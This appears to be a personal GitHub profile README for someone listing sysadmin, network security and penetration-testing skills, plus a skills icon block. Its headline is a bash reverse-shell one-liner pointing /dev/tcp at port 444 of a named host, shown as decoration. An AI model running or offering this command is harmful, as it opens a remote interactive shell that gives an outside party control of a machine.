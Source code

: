 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media1.giphy.com/media/dZX3AduGrY3uJ7qCsx/giphy.gif?cid=6c09b952lhfrskfz0exml37rzxsv9t6wpzkh3pg4zkuqfva7&ep=v1_internal_gif_by_id&rid=giphy.gif&ct=g" alt="image" width="450" align="right">
  </p>

   &lt;config&gt;

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing

🕵️ Vulnerability Analysis

   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
